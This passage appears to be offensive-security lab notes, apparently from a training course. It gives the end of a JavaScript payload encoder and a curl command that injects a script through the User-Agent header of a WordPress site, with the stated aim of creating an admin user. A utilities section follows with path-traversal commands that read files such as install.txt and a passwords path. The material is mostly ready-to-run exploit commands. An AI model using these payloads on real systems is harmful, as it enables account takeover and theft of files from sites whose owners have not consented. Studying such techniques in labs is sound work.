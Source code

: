 ```
                if(pos != (input.length - 1)) {
                    output += ",";
                }
            }
            return output;
        }
        
let encoded = encode_to_javascript('insert_minified_javascript')
console.log(encoded)
```
5. ***Send payload** using curl Example below uses the same vulnerable **User-Agent** field from the above background explanation:*
	 ***REPLACE:***
	 1. *encoded_payload*
```shell
curl -i 'http://offsecwp' --user-agent "<script>encoded_payload</script>" --proxy 127.0.0.1:8080
```

1. ***Examine in Burp** in burp to see it is sending correctly.*
2. ***If Successful**, you should have an admin user inserted so you can login*

# ***Utils***
## *curl keep dots*
```
curl --path-as-is http://192.168.224.193:3000/public/plugins/alertlist/../../../../../../../../../Users/install.txt
```

## *URL encode path*
```shell
hURL -U PATH
```

## *URL encode periods*
```
echo "../../../../../../../../opt/passwords" | sed 's/\./\%2e/g'
```
